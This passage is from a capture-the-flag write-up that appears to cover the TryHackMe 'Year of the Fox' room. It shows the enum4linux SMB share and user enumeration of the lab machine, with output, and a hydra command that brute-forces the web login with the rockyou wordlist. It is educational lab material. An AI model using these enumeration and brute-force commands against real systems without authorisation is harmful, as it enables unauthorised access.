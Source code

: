 | smb2-time: 
|   date: 2020-07-21T10:08:04
|_  start_date: N/A</pre>

Let's enumerate our first port - 80:

![port 80](https://imgur.com/xT4s0Tg.png)

We are asked for some credentials but I don't have any so far.

I added 10.10.174.149 to my /etc/hosts file as thm.fox.

Let's move onto the next port - 139 and 445. Since this machine is using smb, my spidey senses told me to use enum4linux.

<pre>enum4linux fox.thm</pre>

<pre> ==================================== 
|    Share Enumeration on fox.thm    |
 ==================================== 

	Sharename       Type      Comment
	---------       ----      -------
	yotf            Disk      Fox's Stuff -- keep out!
	IPC$            IPC       IPC Service (year-of-the-fox server (Samba, Ubuntu))
</pre>

Let's enumerate users:

<pre>enum4linux -U fox.thm</pre>

<pre> ================================================================== 
|    Users on fox.thm via RID cycling (RIDS: 500-550,1000-1050)    |
 ================================================================== 
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-978893743-2663913856-222388731
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\fox (Local User)
S-1-22-1-1001 Unix User\rascal (Local User)</pre>

So we have identified 2 users - **rascal** and **fox** as well as 2 shares - **yotf** and **IPC$**. 

From our scans, we know that there is no authentication required:

<pre>[+] Server fox.thm allows sessions using username '', password ''</pre>

However, the shares require authentication. We don't know any credentials as mentioned before. Therefore, we need a different approach.

I attempted to brute-force the web login with user rascal using hydra:

<pre>hydra -l rascal -P /usr/share/wordlists/rockyou.txt fox.thm http-head /</pre>

![hydra](https://imgur.com/xSu2LFf.png)
